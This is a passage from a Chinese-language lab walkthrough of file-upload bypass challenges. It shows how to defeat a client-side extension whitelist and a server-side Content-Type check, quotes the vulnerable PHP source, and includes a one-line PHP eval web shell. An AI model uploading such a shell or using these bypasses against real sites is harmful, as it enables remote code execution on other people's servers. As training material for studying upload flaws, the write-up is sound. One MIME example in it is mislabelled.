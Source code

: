 它截取文件后缀，判断是否在白名单中。

两种方法。

* 浏览器禁用js代码执行。

拿火狐来说。再地址栏输入`about:config`,接受风险并继续。

搜索javascript，将第二项禁用。

![UAmlvj.png](https://s1.ax1x.com/2020/07/07/UAmlvj.png)

即可成功上传任意文件。这里上传一个小马。
`<?php eval($_POST[a]); ?>`

![UAmca6.png](https://s1.ax1x.com/2020/07/07/UAmca6.png)

* 可以抓包修改后缀

将ma.php修改为可允许上传文件。之后上传抓包。

![UAnZQJ.png](https://s1.ax1x.com/2020/07/07/UAnZQJ.png)

即可成功上传php文件。

## ***Pass-02***


黑名单过滤之文件类型校验是指HTTP头中的 Content-Type，在服务端进行校验。

Content-Type：也叫互联网媒体类型（Internet Media Type）或者 MIME 类型，

在 HTTP 协议消息头中，它用来表示具体请求中的媒体类型信息。

例如：

* text/html 代表 HTML 格式
* image/gif 代表 GIF 图片
* Image/png 代表 GIF 图片
* application/octet-stream 二进制流，不知道文件类型（PHP）
* application/json 代表 JSON 类型

开始闯关。上传php文件，提示上传类型不正确。进行抓包。

将`application/octet-stream`改为`Content-Type: image/jpeg`,成功绕过限制。

![UAuajJ.png](https://s1.ax1x.com/2020/07/07/UAuajJ.png)

分析一下源码：

	$is_upload = false;
	$msg = null;
	if (isset($_POST['submit'])) {
	    if (file_exists(UPLOAD_PATH)) {
	        if (($_FILES['upload_file']['type'] == 'image/jpeg') || ($_FILES['upload_file']['type'] == 'image/png') || ($_FILES['upload_file']['type'] == 'image/gif')) {
	            $temp_file = $_FILES['upload_file']['tmp_name'];
	            $img_path = UPLOAD_PATH . '/' . $_FILES['upload_file']['name']            
	            if (move_uploaded_file($temp_file, $img_path)) {
	                $is_upload = true;
	            } else {
	                $msg = '上传出错！';
	            }
	        } else {
	            $msg = '文件类型不正确，请重新上传！';
	        }
	    } else {
	        $msg = UPLOAD_PATH.'文件夹不存在,请手工创建！';
	    }
	}
